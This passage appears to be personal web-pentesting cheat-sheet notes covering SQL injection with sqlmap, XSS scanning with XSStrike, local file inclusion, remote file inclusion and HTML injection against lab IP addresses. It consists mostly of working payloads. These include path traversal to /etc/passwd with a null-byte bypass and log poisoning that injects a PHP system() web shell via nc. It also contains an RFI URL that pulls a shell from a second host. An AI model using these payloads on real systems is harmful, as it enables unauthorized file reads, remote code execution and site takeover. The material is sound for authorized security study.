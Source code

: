 ```bash 
sqlmap -u "172.100.1.10/adm/test.php" —forms 
```  


## XSS Cross Site Scripting  
Links:  
- [Brutelogic](https://brutelogic.com.br/blog/)  

### Reflect 


### Self-XSS  
The script go to the page.

### Stored XSS  
When is possible salve a code in the page, so every time that the page is load the script execute. Can steal cookies, passwords, etc.

### Dom XSS

### Automation  
```bash
python3 xsstrike -u "http://172.16.10.1/turismo/procurar.php?busca=" # Test parameters
python3 xsstrike -u "http://172.16.10.1/turismo/procurar.php" # Find parameters in page
python3 xsstrike -u "http://172.16.10.1/turismo/procurar.php/" —path # Search by self-xss
```  


## LFI Local File Inclusion  
Application receive a parameter that execeute a command direct, without handling the input.  
- 172.16.1.10/administration/info.php?p=/../../../../etc/passwd -> Read
- 172.16.1.10/administration/info.php?p=/../../../../etc/passwd%00 -> Null byte bypass.

LFI to RCE - Log infection
```bash
172.16.1.10/administration/info.php?p=/../../../../var/log/apache2/access.log # Read a log file. in this case the apche log.

nc -v 172.16.1.10 80 -C <?php system($_GET['p']); ?> # Sending data to register in log

172.16.1.10/administration/info.php?p=/../../../../var/log/apache2/access.log&p=whereis nc # Execute the rce in log file.
```  
## RFI  Remote File Inclusion
It's possible to include a remote file in system.  
- 172.16.1.10/administration/link.php?link=https://172.90.0.37:8080/shell&p=id  

## HTML Injection
It's possible inject a html in the page.  
- "172.16.1.10/administration/search.php?ps=<a href="http://172.90.0.37/"><h1>Amazing link hacker</h1></a> 
